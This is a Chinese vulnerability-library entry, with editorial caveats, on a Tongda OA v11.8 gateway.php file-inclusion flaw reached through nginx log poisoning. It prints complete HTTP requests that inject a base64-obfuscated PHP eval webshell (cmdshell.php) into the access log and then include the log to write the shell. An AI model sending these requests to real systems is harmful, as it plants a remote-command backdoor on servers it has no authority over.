





# 通达OA gateway本地日志包含写文件

## 条目说明

- 对象与具体问题：通达OA；gateway本地日志包含写文件
- 版本、配置及部署条件：声称11.8；nginx日志配置/编码相关
- 认证与权限前提：无Cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- getway拼错；应本地文件包含而非远程包含
- ispirit与mac应解释替代入口或先后条件
- 日志污染请求原始空格/PHP字符受编码转义影响；输出路径随入口变
- 11.8与旧文修复范围冲突，缺补丁绕过分析

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

通达OA v11.8 getway.php 存在文件包含漏洞，攻击者通过发送恶意请求包含日志文件导致任意文件写入漏洞

### 漏洞影响

```
通达OA v11.8
```

### 网络测绘

```
app="TDXK-通达OA"
```

### 漏洞复现

登陆页面



发送恶意请求让日志被记录

```
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```



在通过漏洞包含日志文件

```http
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

> 请求长度说明：原资料 Content-Length 为 54；保留原始标头；其数值未据实际请求体重新计算或验证。



再次发送恶意请求写入文件

```http
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

> 请求长度说明：原资料 Content-Length 为 54；保留原始标头；其数值未据实际请求体重新计算或验证。



访问写入的文件 `/mac/cmdshell.php`



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
